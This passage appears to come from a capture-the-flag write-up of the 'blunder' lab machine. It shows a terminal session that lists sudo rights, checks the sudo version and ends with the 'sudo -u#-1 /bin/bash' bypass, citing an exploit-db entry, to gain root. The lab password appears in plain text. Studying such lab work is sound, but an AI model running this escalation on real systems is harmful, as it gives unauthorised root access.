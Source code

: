 	Searching the exploit db again, there is a [CVS exploit](https://www.exploit-db.com/exploits/47502) on this sudo version is identified. Following the instruction, the root privilege obtain.

	![img](./img/16.png)

	```
	hugo@blunder:~$ 
	hugo@blunder:~$ sudo -l
	sudo -l
	Password: Password120
	Matching Defaults entries for hugo on blunder:
	    env_reset, mail_badpass,
	    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	User hugo may run the following commands on blunder:
	    (ALL, !root) /bin/bash
	hugo@blunder:~$ sudo --version
	sudo --version
	Sudo version 1.8.25p1
	Sudoers policy plugin version 1.8.25p1
	Sudoers file grammar version 46
	Sudoers I/O plugin version 1.8.25p1
	hugo@blunder:~$ 
	hugo@blunder:/$ sudo -u#-1 /bin/bash